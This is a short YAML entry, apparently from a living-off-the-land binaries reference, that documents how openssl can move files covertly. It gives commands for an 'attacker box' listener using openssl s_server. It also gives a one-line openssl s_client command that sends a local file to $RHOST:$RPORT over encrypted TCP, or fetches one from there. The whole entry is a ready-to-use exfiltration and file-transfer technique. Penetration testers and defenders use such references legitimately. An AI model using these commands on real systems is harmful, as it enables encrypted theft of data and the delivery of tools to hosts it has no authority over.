 ```yaml
---
functions:
  file-upload:
    - description: |
        To collect the file run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 4444 > file_to_save

        Send a local file via TCP. Transmission will be encrypted.
      code: |
        openssl s_client -quiet -connect $RHOST:$RPORT < "$LFILE"
  file-download:
    - description: |
        To send the file run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 4444 < file_to_send

        Fetch a file from a TCP port, transmission will be encrypted.
      code: |
        openssl s_client -quiet -connect $RHOST:$RPORT > "$LFILE"
---
```

